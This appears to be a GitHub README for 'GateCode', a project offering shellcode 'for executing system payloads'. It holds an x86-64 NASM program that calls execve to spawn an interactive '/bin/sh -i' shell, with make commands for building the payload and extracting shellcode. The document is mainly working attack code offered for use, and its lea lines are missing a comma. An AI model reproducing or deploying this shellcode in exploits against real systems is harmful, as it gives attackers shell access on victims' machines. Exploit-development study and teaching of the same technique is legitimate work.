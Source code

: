 # GateCode

*universal method of executing system payloads*

GateCode is a method of executing system payloads through shellcodes.

## Explaining

```nasm
;
;  payload.nasm
;  GateCode
;
;  Created by The Gate Group on 2020.
;  Copyright © 2020 The Gate Group. All rights reserved.
;

; program entry point

section .text
global _start
_start:
	 mov rax, 59        ; call execve
	 lea rdi [rel cmd]  ; command
	 lea rsi [rel args] ; command args
	 xor edx, edx       ; zero initialize edx
	 syscall            ; call execve

; program (read-only data) constants

section .rodata
align 8              ; enforce alignment
args dq cmd, arg1, 0 ; merge all command with arguments
arg1 db '-i', 0      ; initialize argument number 1
cmd  db '/bin/sh', 0 ; initialize command
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```
